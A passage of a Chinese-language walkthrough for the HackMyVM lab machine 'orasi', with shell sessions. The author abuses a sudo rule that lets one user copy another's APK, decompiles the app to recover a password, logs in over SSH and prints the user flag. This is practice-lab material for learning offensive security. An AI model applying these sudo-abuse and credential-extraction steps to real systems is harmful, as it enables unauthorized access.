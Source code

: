 ```bash
(remote) kori@orasi:/var/www/html$ sudo -l
Matching Defaults entries for kori on orasi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kori may run the following commands on orasi:
    (irida) NOPASSWD: /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk

```

可以复制irida目录下面的apk到当前用户目录下面

复制之前先要创建一个 `/home/kori/irida.apk ` 并且给权限
```bash
(remote) kori@orasi:/home/kori$ touch /home/kori/irida.apk
(remote) kori@orasi:/home/kori$ chmod 777 /home/kori/irida.apk
(remote) kori@orasi:/home/kori$ sudo -u irida /usr/bin/cp /home/irida/irida.apk /home/kori/irida.apk
```

然后传到本地。逆向分析一下
用jeb分析可以发现关键字符串
![Pasted image 20241206152120](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206152120.png)
这个多半就是账号密码
右键解析
![Pasted image 20241206152657](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206152657.png)

可以发现对 `1 #2 #3 #4 #5` 进行了处理
正确的密码应该是 `eye.of.the.tiger.()`
尝试登录发现是错误的。

靶机作者有给过一个提示。
![Pasted image 20241206153024](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241206153024.png)
> 只是一个无用的小点

可能是说有一个点没有用
经过测试 正确密码是 `eye.of.the.tiger()`

ssh登录成功
```bash
┌──(root㉿kali)-[/home/kali/hmv/orasi]
└─# ssh irida@192.168.212.4
irida@192.168.212.4''s password:
Linux orasi 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb 11 18:48:10 2021 from 10.0.2.15
irida@orasi:~$ id
uid=1000(irida) gid=1000(irida) groups=1000(irida),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)


irida@orasi:~$ cat user.txt
2afb9cbb10c22dc7e154a8c434595948

```
